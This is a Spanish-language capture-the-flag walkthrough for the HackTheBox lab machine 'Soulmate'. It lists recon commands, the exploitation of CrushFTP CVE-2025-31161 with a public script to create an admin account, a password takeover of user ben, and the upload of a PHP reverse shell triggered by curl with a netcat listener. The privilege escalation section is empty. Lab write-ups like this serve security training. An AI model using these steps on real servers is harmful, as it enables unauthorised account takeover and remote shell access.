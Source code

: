 ## Reconocimiento
Empezaremos haciendo uso de [[NMAP]] para hacer un reconocimiento inicial
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

Nos encontramos abiertos los puertos `22/ssh` `80/HTTP`
Navegamos al puerto `80` vía web y nos encontramos una web `soulmate.htb` que la añadiremos al `/etc/hosts` junto con la IP correspondiente de la maquina, volvemos a recargar el navegador y ya nos carga la web.

Haremos fuzzing sobre los directorios con [[GOBUSTER]] `gobuster -u http://soulmate.htp` una vez hemos hecho esto y no hemos encontrado nada relevante

Haremos fuzzing de subdominios con [[FFUF]] `ffuf -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" \ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4`
Encontramos un dominio llamado `ftp.soulmate.htb` así que navegamos a el.

Nos encontramos una web de gestión de FTP llamado `CrushFTP`, buscamos en el código fuente y encontramos la versión `11.W.657`, navegamos por internet en búsqueda de vulnerabilidades que haya habido y encontramos el CVE `CVE-2025-31161`
## Explotación
Para poder explotarlo nos descargamos el repositorio `git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161` y ejecutamos el fichero `.py` 
`python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123`

Con esto nos creara un usuario `test::admin123`

Accedemos a la web y en la parte de `Admin` en las opciones de usuario `User Option` nos encontramos diversos usuarios, seleccionamos a `ben` por que es un usuario raso y le cambiamos la contraseña.
Iniciamos sesión como `ben` y subimos una Shell inversa en la carpeta `/webProd`

Usaremos la siguiente shell `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`
En el archivo tenemos que modificar la IP de escucha y el PUERTO

En la maquina atacante nos ponemos en escucha por ese puerto con [[NETCAT]] con `nc -lnvp 1234`

Ejecutamos la Shell con curl `curl http://soulmate.htb/shell.php`

Y obtendremos una reverse shell como `ben`

## Escalada de Privilegios

